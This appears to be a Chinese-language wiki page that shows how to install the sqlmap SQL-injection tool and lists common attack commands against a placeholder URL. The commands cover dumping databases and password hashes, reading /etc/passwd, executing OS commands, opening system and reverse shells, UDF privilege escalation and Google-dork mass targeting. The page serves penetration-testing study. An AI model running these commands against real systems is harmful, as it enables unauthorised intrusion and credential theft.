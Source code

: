 # sqlmap

## 1.安装过程

###  1、Windows

 可以在电脑上先安装git，git for Windows的链接就在[这里](https://github.com/git-for-windows/git/releases/download/v2.31.1.windows.1/Git-2.31.1-64-bit.exe)  
确认电脑上有python环境并且已经配好了环境变量  
直接选中目录，并在cmd中打开，输入命令：

```text
git clone https://gitee.com/yixuan1/sqlmap.git
```

 下载好后，将 sqlmap.py 所在目录添加至环境变量即可

升级sqlmap时，可直接使用`git pull`命令，将电脑中的sqlmap更新至最新版本

![&#x65E0;&#x9700;&#x5347;&#x7EA7;](../../.gitbook/assets/image%20%281085%29.png)

![](../../.gitbook/assets/image%20%281086%29.png)

###  2、Linux

以ubuntu系统为例：

```text
apt update
apt install -y git python3 python3-pip
git clone https://gitee.com/yixuan1/sqlmap.git
```

 剩下的步骤类似Windows，可自行百度

## 2. 常用语句

```text
sqlmap.py -u "http://IP:PORT/?id=1" --current-user #获取当前用户名称 
sqlmap.py -u "http://IP:PORT/?id=1" --current-db #获取当前数据库名称
sqlmap.py -u "http://IP:PORT/?id=1" --tables -D "db_name" #列表名 
sqlmap.py -u "http://IP:PORT/?id=1" --columns -T "tablename" users-D "db_name" -v 0 #列字段
sqlmap.py -u "http://IP:PORT/?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0 #获取字段内容



sqlmap.py -u "http://IP:PORT/?id=1"  --smart  --level 3 --users  # smart智能 level  执行测试等级
sqlmap.py -u "http://IP:PORT/?id=1"  --dbms "Mysql" --users  # dbms 指定数据库类型
sqlmap.py -u "http://IP:PORT/?id=1"  --users  #列数据库用户
sqlmap.py -u "http://IP:PORT/?id=1"  --dbs#列数据库 
sqlmap.py -u "http://IP:PORT/?id=1"  --passwords #数据库用户密码 
sqlmap.py -u "http://IP:PORT/?id=1"  --passwords-U root  -v 0 #列出指定用户数据库密码
sqlmap.py -u "http://IP:PORT/?id=1"  --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20  #列出指定字段，列出20条 
sqlmap.py -u "http://IP:PORT/?id=1"  --dump-all -v 0 #列出所有数据库所有表
sqlmap.py -u "http://IP:PORT/?id=1"  --privileges #查看权限 
sqlmap.py -u "http://IP:PORT/?id=1"  --privileges -U root #查看指定用户权限
sqlmap.py -u "http://IP:PORT/?id=1"  --is-dba -v 1 #是否是数据库管理员
sqlmap.py -u "http://IP:PORT/?id=1"  --roles #枚举数据库用户角色 
sqlmap.py -u "http://IP:PORT/?id=1"  --udf-inject #导入用户自定义函数（获取系统权限！）
sqlmap.py -u "http://IP:PORT/?id=1"  --dump-all --exclude-sysdbs -v 0 #列出当前库所有表
sqlmap.py -u "http://IP:PORT/?id=1"  --union-cols #union 查询表记录 
sqlmap.py -u "http://IP:PORT/?id=1"  --cookie "COOKIE_VALUE" #cookie注入
sqlmap.py -u "http://IP:PORT/?id=1"  -b #获取banner信息
sqlmap.py -u "http://IP:PORT/?id=1"  --data "id=3"  #post注入
sqlmap.py -u "http://IP:PORT/?id=1"  -v 1 -f #指纹判别数据库类型 
sqlmap.py -u "http://IP:PORT/?id=1"  --proxy"http://127.0.0.1:8118" #代理注入
sqlmap.py -u "http://IP:PORT/?id=1"  --string"STRING_ON_TRUE_PAGE"  #指定关键词
sqlmap.py -u "http://IP:PORT/?id=1"  --sql-shell #执行指定sql命令
sqlmap.py -u "http://IP:PORT/?id=1"  --file /etc/passwd 
sqlmap.py -u "http://IP:PORT/?id=1"  --os-cmd=whoami #执行系统命令
sqlmap.py -u "http://IP:PORT/?id=1"  --os-shell #系统交互shell
sqlmap.py -u "http://IP:PORT/?id=1"  --os-pwn #反弹shell 
sqlmap.py -u "http://IP:PORT/?id=1"  --reg-read #读取win系统注册表
sqlmap.py -u "http://IP:PORT/?id=1"  --dbs-o "sqlmap.log" #保存进度 
sqlmap.py -u "http://IP:PORT/?id=1"  --dbs  -o "sqlmap.log" --resume  #恢复已保存进度sqlmap -g "google语法" --dump-all --batch  #google搜索注入点自动 跑出所有字段攻击实例
sqlmap.py -u "http://IP:PORT/?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users --password
```



